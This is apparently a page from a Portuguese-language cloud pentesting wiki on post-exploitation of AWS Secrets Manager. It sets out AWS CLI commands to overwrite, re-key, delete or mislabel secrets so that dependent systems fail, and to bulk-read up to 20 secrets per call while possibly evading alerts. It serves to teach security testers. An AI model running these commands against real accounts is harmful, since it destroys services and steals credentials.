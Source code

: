 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Para mais informações, veja:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

Os **secrets em si são informações sensíveis**, [veja a página privesc](../aws-privilege-escalation/aws-secrets-manager-privesc.md) para aprender como lê-los.

### DoS Change Secret Value

Ao alterar o valor do secret você pode **DoS todos os sistemas que dependem desse valor.**

> [!WARNING]
> Observe que valores anteriores também são armazenados, então é fácil voltar ao valor anterior.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Se o atacante tiver a permissão secretsmanager:UpdateSecret, ele pode configurar o secret para usar uma KMS key de propriedade do atacante. Essa key é inicialmente configurada de modo que qualquer pessoa possa acessá-la e usá-la, então atualizar o secret com a nova key é possível. Se a key não fosse acessível, o secret não poderia ser atualizado.

Após alterar a key do secret, o atacante modifica a configuração da sua key para que apenas ele possa acessá-la. Dessa forma, nas versões subsequentes do secret, ele será criptografado com a nova key e, como não haverá acesso a ela, a capacidade de recuperar o secret será perdida.

É importante notar que essa inacessibilidade ocorrerá apenas em versões posteriores, depois que o conteúdo do secret mudar, já que a versão atual ainda está criptografada com a KMS key original.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Exclusão de segredo

O número mínimo de dias para excluir um segredo é 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

É possível restaurar um segredo, o que permite a restauração de segredos que foram programados para exclusão, já que o período mínimo de exclusão para segredos é de 7 dias e o máximo é de 30 dias. Em conjunto com a permissão secretsmanager:GetSecretValue, isso possibilita recuperar seus conteúdos.

Para recuperar um segredo que está em processo de exclusão, você pode usar o seguinte comando:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Esta ação permite deletar a resource policy que controla quem pode acessar um secret. Isso pode levar a um DoS se a resource policy tiver sido configurada para permitir acesso a um conjunto específico de usuários.

Para deletar a resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Os estados de um secret são usados para gerenciar versões de um segredo. AWSCURRENT marca a versão ativa que as aplicações usam, AWSPREVIOUS mantém a versão anterior para que você possa reverter se necessário, e AWSPENDING é usado no processo de rotação para preparar e validar uma nova versão antes de torná-la a atual.

As aplicações sempre leem a versão com AWSCURRENT. Se alguém mover esse rótulo para a versão errada, as aplicações usarão credenciais inválidas e podem falhar.

AWSPREVIOUS não é usado automaticamente. No entanto, se AWSCURRENT for removido ou reatribuído incorretamente, pode parecer que tudo continua a ser executado com a versão anterior.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Abuse the Secrets Manager BatchGetSecretValue API para recuperar até 20 secrets em uma única requisição. Isso pode reduzir dramaticamente o volume de chamadas de API em comparação com iterar GetSecretValue por segredo. Se filtros forem usados (tags/name), a permissão ListSecrets também é necessária. O CloudTrail ainda registra um evento GetSecretValue para cada segredo recuperado no lote.

Permissões necessárias
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue para cada segredo alvo
- secretsmanager:ListSecrets se estiver usando --filters
- kms:Decrypt nos CMKs usados pelos segredos (se não estiver usando aws/secretsmanager)

> [!WARNING]
> Observe que a permissão `secretsmanager:BatchGetSecretValue` por si só não é suficiente para recuperar segredos; você também precisa de `secretsmanager:GetSecretValue` para cada segredo que deseja recuperar.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrar por filtros (chave/valor de tag ou prefixo de nome)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Lidando com falhas parciais
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impacto
- Rápida “smash-and-grab” de muitos segredos com menos chamadas de API, potencialmente contornando alertas ajustados para picos de GetSecretValue.
- Os logs do CloudTrail ainda incluem um evento GetSecretValue por cada segredo recuperado pelo lote.

